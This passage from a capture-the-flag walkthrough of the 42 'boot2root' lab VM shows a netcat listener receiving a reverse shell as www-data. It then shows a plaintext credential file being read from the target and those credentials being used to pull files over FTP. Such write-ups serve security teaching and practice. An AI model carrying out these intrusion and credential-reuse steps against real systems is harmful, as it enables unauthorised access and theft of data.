 Now, when the reverse shell connects, we receive a connection on our listener:

```bash
xel@lucky7 ~/files/42/boot2root % nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.0.31 50782
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

We now have a reverse shell running as the **www-data** user, giving us command execution on the target system.

## 7. Exploring the Target

While exploring the `/home` directory, we notice a folder named **LOOKATME** owned by the **www-data** user. Inside this directory, we find a file named `password`.

```bash
$ cat password
lmezard:G!@M6f4Eatau{sF"
```

We attempt to use these credentials to connect via **SSH**, but they don’t work. However, when we try logging into **FTP**, it works!

### FTP Access

```bash
xel@lucky7 ~/files/42/boot2root % ftp 192.168.0.31 

Connected to 192.168.0.31.
220 Welcome on this server
Name (192.168.0.31:xel): lmezard
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10673|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxrwxrwx    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||23492|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |*************************************************************************************************|   790 KiB   14.80 MiB/s    00:00 ETA
226 Transfer complete.
ftp> get README
local: README remote: README
229 Entering Extended Passive Mode (|||19402|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |*************************************************************************************************|    96      801.28 KiB/s    00:00 ETA
226 Transfer complete.
```
